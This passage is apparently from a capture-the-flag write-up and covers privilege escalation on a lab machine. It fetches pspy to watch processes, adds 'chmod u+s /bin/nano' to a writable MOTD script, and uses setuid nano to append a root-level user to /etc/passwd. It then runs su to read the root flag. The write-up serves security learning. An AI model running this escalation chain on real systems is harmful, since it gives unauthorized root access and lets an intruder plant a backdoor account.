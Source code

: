 ## Privilege Escalation

Once logged in it was possible to read the user flag `/home/mitnick/user.txt` and conclude the first part of the challenge.  
For the second one, the next commands executed were
```bash
cd /tmp
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod 777 pspy64
./pspy64
```
**Pspy** is a command-line tool designed to snoop on processes without the need for `root` permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.  
After inspecting the output produced by the tool, it was found that `/etc/update-motd.d` was running. **Message Of The Day MOTD** is the message that is displayed upon login. The folder contains scripts that generate these messages; they are named with numerical prefixes to ensure that they run in a specific order.  

![Pspy64](images/pspy64.png)

By listing the content of this folder, it appeared that all these scripts could be modified by the current user via `nano`: 
```bash
nano /etc/update-motd.d/00-header
```
The `00-header` script is the first one that is executed and generates static header messages.
By inserting the line `chmod u+s /bin/nano` inside the file, executing the script would result in assigning the `setuid` flag to the program `nano` (owned by `root`). In this fashion, when executed it would **run with the privileges of the owner**, that is, as `root`.  
For the modification to take place, it was necessary to log out of the SSH server and log in once again. After login, running `ls -l /bin/nano` returned:

![Nano](images/setuid_nano.png)

showing that the updates took effect.  With `nano` it was now possible to modify `/etc/passwd` to add a new user with password `pass`, as generated by
```bash
openssl passwd -salt ransalt -1 pass
```
The line added was:
```bash
aleq:$1$ransalt$z9sZ//wbn6R75OIQ7w2ws.:0:0::/root:/bin/bash
```
It was now possible to use the substitute user command, `su`, to become the newly created user that has superuser privileges, as specified by the `suid` and `guid` values, both set at `0`. The following commands allow obtaining root privileges and reading the flag, terminating the challenge:
```bash
su aleq
cd /root
cat root.txt
```
This concludes the challenge as root privileges were obtained and both flags were read.